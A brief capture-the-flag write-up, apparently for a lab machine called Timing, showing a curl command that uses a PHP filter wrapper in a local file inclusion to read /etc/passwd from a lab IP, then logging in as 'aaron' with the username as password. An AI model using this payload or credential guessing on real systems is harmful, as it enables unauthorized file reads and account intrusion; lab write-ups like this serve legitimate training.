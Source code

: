 ### Timing machine writeup

### first you should to try to get the information about the login

implement this code:

```
curl -s -X GET http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```

You will get the file with the users

#### and you will notice the user "aaron"

#### Now you trying to make a login with aaron and aaron and, you in!!!
